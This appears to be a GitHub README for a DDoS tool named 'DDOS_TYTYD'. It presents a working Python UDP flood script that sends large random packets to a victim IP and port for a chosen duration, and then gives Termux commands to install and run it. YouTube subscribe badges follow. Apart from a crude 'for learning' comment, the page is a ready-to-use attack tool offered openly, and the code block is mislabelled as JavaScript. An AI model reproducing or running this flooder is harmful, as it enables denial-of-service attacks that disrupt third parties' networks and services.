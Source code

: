 # DDOS_TYTYD
V1 and V2 DDOS Tools

```js
#Buat Belajar Jan Dec Mulu Kontol
import os,sys,time,socket,random,string,optparse
import requests
from requests import post,get,put

#Kasi Logo Seterah
def usage():
    print ("Logo Seterah")

def flood(victim, vport, duration):
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes = random._urandom(20000)
    timeout =  time.time() + duration
    sent = 3000

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print (f"bla bla")

def main():
    try:
          print (len(sys.argv))
          if len(sys.argv) != 4:
             usage()
          else:
             flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))
    except IndexError:
          sys.exit("use:python ddos.py bla")
if __name__ == '__main__':
    main()
```

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  pip install colorama requests bs4 
  git clone https://github.com/AmmarrBN/DDOS_TYTYD
  cd DDOS_TYTYD
  python ddos_tytyd.py
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)


[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)

```

